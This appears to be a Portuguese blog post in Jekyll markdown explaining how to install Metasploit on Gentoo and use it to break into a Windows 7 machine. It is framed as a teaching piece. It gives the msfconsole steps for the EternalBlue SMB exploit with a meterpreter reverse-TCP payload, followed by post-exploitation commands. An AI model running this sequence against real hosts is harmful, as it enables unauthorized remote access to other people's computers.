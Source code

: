 ```yaml
---
layout: post
title: "Como Acessar o Windows pelo Linux com Metasploit"
date: 2019-04-17 21:03:35
image: '/assets/img/dicas/metasploit-linux-min.jpg'
description: 'Metasploit é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração.'
tags:
- metasploit
- security
- windows
---
```


![Como Acessar o Windows pelo Linux com Metasploit](/assets/img/dicas/metasploit-linux-min.jpg)

## Introdução

O [Metasploit](https://www.metasploit.com/) é um projeto de segurança da informação que fornece informações sobre vulnerabilidades de segurança e ajuda nos testes de penetração . 

É de propriedade da empresa de segurança Rapid7 , de Boston, Massachusetts que possui diversos softwares ( **Opcode** - *Banco de Dados* ; e o **Shellcode** , *que executa comandos de* [Shell Script](http://terminalroot.com.br/shell), ... ), entre eles o mais conhecido que é o [Metasploit Framework](https://github.com/rapid7/metasploit-framework), um software de código aberto uma ferramenta para explorar falhas de uma máquina remota.

O Metasploit possui 6 tipos de módulos (*auxiliary*, *exploit*, *payload*, *post*, *encoder* e *nop*) . No vídeo apresentado por nós vamos utilizar o [Meterpreter](https://github.com/rapid7/metasploit-framework/wiki/Meterpreter) que  é um *payload* avançado.


## Instalação

Existem diversas maneiras de você instalar o **Metasploit Framework** . Baixando diretamente pelo site <https://www.metasploit.com/> ou pelo GitHub <https://github.com/rapid7/metasploit-framework> . Ou instalando via gerenciador de pacotes da sua distribuição, por exemplo, na distribuição que eu utilizo [Gentoo](https://gentoo.org) basta realizar os comandos abaixo:

{% highlight bash %}
# su ou sudo
emerge -a net-analyzer/metasploit \
dev-ruby/metasploit_payloads-mettle \
dev-ruby/metasploit_data_models \
dev-ruby/metasploit-payloads \
dev-ruby/metasploit-model \
dev-ruby/metasploit-credential \
dev-ruby/metasploit-concern \
app-eselect/eselect-metasploit
{% endhighlight %}

O comando acima irá pedir para atualizar o *package.use* por conta das flags, então rode o comando:

{% highlight bash %}
etc-update --automode -5
{% endhighlight %}

E então rode o comando de instalação novamente.

Após instalação, talvez você não encontre o comando `msfconsole` responsável por abrir o Metasploit, então crie um link simbólico com o *root* ou *sudo*, com o comando abaixo:

{% highlight bash %}
ln -s /usr/lib64/metasploit4.17/msfconsole /usr/bin/msfconsole
{% endhighlight %}

E pronto, o Metasploit está pronto para uso! Lembrando que em algumas distribuições já possuem o Metasploit instalado por padrão, como o [Pentoo](http://terminalroot.com.br/2018/02/como-instalar-o-pentoo-um-gentoo-para-pentest.html) e o [Kali Linux](https://www.kali.org/) entre outras criadas especialmente para testes de invasão.

Próximo passo é rodar o Metasploit rodando o comando:

{% highlight bash %}
msfconsole
{% endhighlight %}

Isso irá abrir o framework, e em seguida usaremos o Meterpreter para acessar o [Windows](http://terminalroot.com.br/2018/03/como-usar-o-shell-bash-no-windows.html) , basta rodar os comandos abaixo na ordem:

{% highlight bash %}
use exploit/windows/smb/ms17_010_eternalblue
set RHOST NÚMERO_IP_DA_MÁQUINA_WINDOWS
set payload windows/x64/meterpreter/reverse_tcp
set LHOST NÚMERO_IP_DA_SUA_MÁQUINA
set encoder generic/none
exploit
{% endhighlight %}

Lembrando que esses comandos são a grosso modo e servem para Windows 7 Service Pack 1 , para outras versões assista o vídeo com link abaixo que há mais detalhes para variados casos:

Após acessar você pode obter informações detalhadas do sistema com o comando `sysinfo`; tirar um print da tela com o comando `screenshot` ; saber qual diretório você está com o comando `pwd` a saída será algo do tipo *c:\windows\system32\* ; desligar, reiniciar,... entre vários comando que podem ser consultado pelo comando `help` .

## Assista ao Vídeo

# [Clique Aqui Para Ver o Vídeo](https://youtu.be/VcbC0yJsWic)

> Esse artigo e o vídeo apresentado foram criados com finalidade didática.

***

## Conheça nosso Treinamentos de Shell Script, Vim, Expressões Regulares e Sed
# <http://terminalroot.com.br/cursos>

## Crie Sua Promoção
# <http://terminalroot.com.br/promo>

## Acompanhe todos os vídeos da **Série Shell Script Profissional**
# [#ShellPro](http://bit.ly/shell-pro-root)

Comente!

<script async src="https://pagead2.googlesyndication.com/pagead/js/adsbygoogle.js"></script>

<!-- Informat -->
<ins class="adsbygoogle"
 style="display:block"
 data-ad-client="ca-pub-2838251107855362"
 data-ad-slot="2327980059"
 data-ad-format="auto"
 data-full-width-responsive="true"></ins>

<script>
(adsbygoogle = window.adsbygoogle || []).push({});
</script>



